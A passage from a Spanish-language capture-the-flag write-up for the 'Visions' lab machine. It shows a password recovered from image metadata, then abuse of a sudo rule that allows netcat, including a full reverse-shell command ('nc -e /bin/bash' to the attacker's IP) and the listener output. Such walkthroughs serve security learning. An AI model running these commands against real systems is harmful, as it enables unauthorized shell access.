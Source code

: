 ```sh
Pixels Per Unit X               : 11811
Pixels Per Unit Y               : 11811
Pixel Units                     : meters
Modify Date                     : 2021:04:19 08:26:43
Comment                         : pw:ihaveadream
Image Size                      : 1920x1080
Megapixels                      : 2.1
```

¡Wow! Vemos que tenemos un comentario con la contraseña de **Alicia**.

¡Ya podemos entrar a la máquina!

### Subida de privilegios #1
Una vez como **Alicia** podemos seguir nuestro camino hacia el **control total** de la máquina, aunque antes debemos pasar por otros usuario.

Listé todos los comandos que podía hacer dentro de la máquina:

```sh
alicia@visions:~$ sudo -l
Matching Defaults entries for alicia on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User alicia may run the following commands on visions:
    (emma) NOPASSWD: /usr/bin/nc
```

Vemos que como **Emma** podemos ejecutar el binario de **NetCat** sin necesidad de proporcionar contraseña.

Como muchos sabéis **NnetCat** sirve para establecer conexiones entre equipos, por lo que nos podemos aprovechar y enviarnos una `Shell` a nuestro equipo y así ganar acceso como **Emma**.

Primero de todo será necesario ponernos en escucha en nuestro equipo para así recibir la conexión, en mi caso por el puerto `4444`.

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Visions]
└─# nc -nlvp 4444       
listening on [any] 4444 ...
```

Una vez en escucha podemos proceder al envío de la `Shell` a nuestro equipo:

```sh
alicia@visions:~$ sudo -u emma /usr/bin/nc -e /bin/bash 192.168.1.106 4444
```

Veremos que a primera vista no pasa nada, pero si nos dirijimos a la segunda terminal veremos que hemos recibido una conexión:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Visions]
└─# nc -nlvp 4444       
listening on [any] 4444 ...
connect to [192.168.1.106] from (UNKNOWN) [192.168.1.103] 47010
emma@visions:/home/alicia$
```
